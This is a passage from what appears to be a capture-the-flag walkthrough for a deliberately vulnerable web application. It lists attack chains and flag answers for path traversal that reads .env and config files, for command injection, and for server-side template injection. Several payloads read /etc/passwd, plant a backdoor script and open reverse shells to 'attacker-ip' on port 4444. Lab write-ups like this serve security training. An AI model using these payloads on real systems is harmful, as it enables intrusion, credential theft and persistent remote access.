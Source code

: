 **Achievement**: Flag `DARK{gr4phql_1ntr0sp3ct10n}`

### Path Traversal for Configuration Disclosure
**Vulnerability**: Path traversal in file access
**Target**: Sensitive server files
**Objective**: Extract configuration and credentials

**Attack Chain**:
1. Identify file access functionality at `/api/file?name=example.txt`
2. Test for path traversal with `../` sequences: `/api/file?name=../config.json`
3. Access sensitive files:
   - Application configuration: `/api/file?name=../config.json`
   - Source code: `/api/file?name=../app.js`
   - Environment variables: `/api/file?name=../.env`
4. Extract hardcoded credentials and secrets

**Achievement**: Flag `DARK{p4th_tr4v3rs4l_m4st3r}`

## Remote Code Execution Chains

### Command Injection RCE
**Vulnerability**: Command injection in ping tool
**Target**: Server OS
**Objective**: Execute arbitrary commands on the server

**Attack Chain**:
1. Access ping functionality at `/ping`
2. Test for command injection with simple payload: `localhost; id`
3. Confirm successful command execution in response
4. Read sensitive files: `localhost; cat /etc/passwd`
5. Enumerate system information: `localhost; uname -a; whoami; id`
6. Establish persistence by creating backdoor: `localhost; echo '#!/bin/bash\nbash -i >& /dev/tcp/attacker-ip/4444 0>&1' > /tmp/backdoor.sh; chmod +x /tmp/backdoor.sh`
7. Execute reverse shell: `localhost; /tmp/backdoor.sh`

**Achievement**: Flag `DARK{c0mm4nd_1nj3ct10n_pr0}`

### Server-Side Template Injection RCE
**Vulnerability**: Template injection in rendering engine
**Target**: Server application
**Objective**: Execute arbitrary code on the server

**Attack Chain**:
1. Access template rendering functionality at `/render-template`
2. Test for SSTI with simple payload: `${7*7}`
3. Confirm successful evaluation (result: 49)
4. Escalate to environment disclosure: `${process.env}`
5. Achieve code execution:
   ```
   ${process.mainModule.require('child_process').execSync('id')}
   ```
6. Read sensitive files:
   ```
   ${process.mainModule.require('fs').readFileSync('/etc/passwd')}
   ```
7. Establish reverse shell:
   ```
   ${process.mainModule.require('child_process').execSync('bash -c "bash -i >& /dev/tcp/attacker-ip/4444 0>&1"')}
   ```
